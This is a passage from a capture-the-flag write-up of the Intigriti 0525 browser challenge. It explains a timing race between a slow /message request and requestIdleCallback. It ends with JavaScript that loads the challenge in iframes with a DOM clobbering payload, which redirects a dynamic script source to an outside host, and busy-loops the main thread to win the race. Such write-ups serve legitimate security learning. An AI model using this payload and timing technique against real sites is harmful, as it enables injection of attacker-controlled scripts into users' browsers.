 # Timing is Everything

Timing is everything. When the payload is sent, the JavaScript makes a request to `/message`, which takes approximately three seconds to resolve. During this wait, the JavaScript thread is considered idle, causing `addDynamicScript` to execute before the DOM Clobbering payload is added to the page. The next challenge is to either expedite the `/message` request so it doesn't trigger the idle state prematurely, or to delay the idle callback until the HTML injection has been loaded.

![](/img/intigriti-0525-writeup/timeline.png)

## Caching the Response

My first thought was to cache the `/message` response. The idea was to force the browser to cache it on disk. This, I hoped, would prevent the browser from going idle while waiting for the network, ensuring the DOM Clobbering payload gets injected before the idle state kicks in. Then, `addDynamicScript` would run, and we'd have our clobbering.

Unfortunately, even with ETags, the server didn't send `Cache-Control` headers that would let the browser use the cached response without revalidating it using `If-None-Match`. I even tried cache deception tactics to force these headers, but no dice. This part might sound brief, but trust me, I spent hours on this, hitting dead ends, trying other things, and then circling back to this idea, all to no avail.

## Don't Let the Main Thread Get Bored

Another approach is to keep the main browser thread busy until the server responds to our `/message?name=` request and our injected HTML is processed. If the thread is busy, the idle callback won't execute prematurely.

My strategy involved loading the challenge page within an `iframe`. As the `iframe` starts loading, I'd run a JavaScript loop for five seconds in the main window. This loop would keep the main thread occupied, preventing the `requestIdleCallback` from firing until after the `iframe` (and thus our injected HTML) had loaded.

```js
const TARGET = "https://challenge-0525.intigriti.io";
const PAYLOAD = '<div id="CONFIG_SRC" data-url=//example.com>';
const BUSY_MS = 5000;

const warm = document.createElement("iframe");
warm.src = `${TARGET}/message?name=${encodeURIComponent(PAYLOAD)}`;
document.body.appendChild(warm);

const victim = document.createElement("iframe");
victim.src = `${TARGET}/index.html?name=${encodeURIComponent(PAYLOAD)}`;
document.body.appendChild(victim);

let end = performance.now() + BUSY_MS;
(function busy() {
  while (performance.now() < end) {
    /* spin */
  }
  if (performance.now() < end + 30) {
    end += 30;
    setTimeout(busy, 0);
  }
})();
```
